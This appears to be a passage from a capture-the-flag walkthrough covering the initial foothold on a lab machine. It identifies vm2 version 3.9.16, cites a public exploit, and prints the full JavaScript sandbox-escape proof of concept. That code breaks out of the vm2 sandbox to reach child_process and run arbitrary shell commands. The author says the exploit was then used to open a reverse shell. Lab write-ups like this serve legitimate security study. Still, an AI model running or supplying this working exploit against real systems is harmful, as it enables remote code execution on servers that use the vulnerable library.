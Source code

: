 The link on the page is redirected to github repository of which version is 3.9.16.



# Shell as `svc`

### vm2 sandbox escape

I googled with the keywords "vm2", "3.9.16", and found one exploit leading to RCE vulnerability : https://www.exploit-db.com/exploits/51898

```javascript
const { VM } = require("vm2");
const vm = new VM();

const command = 'pwd'; // Change to the desired command

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}

try {
    const handler = {
        getPrototypeOf(target) {
            (function stack() {
                new Error().stack;
                stack();
            })();
        }
    };

    const proxiedErr = new Proxy({}, handler);

    throw proxiedErr;
} catch ({ constructor: c }) {
    const childProcess = c.constructor('return process')().mainModule.require('child_process');
    childProcess.execSync('${command}');
}
`;

console.log(vm.run(code));
```

Using the PoC, I can open a reverse shell.
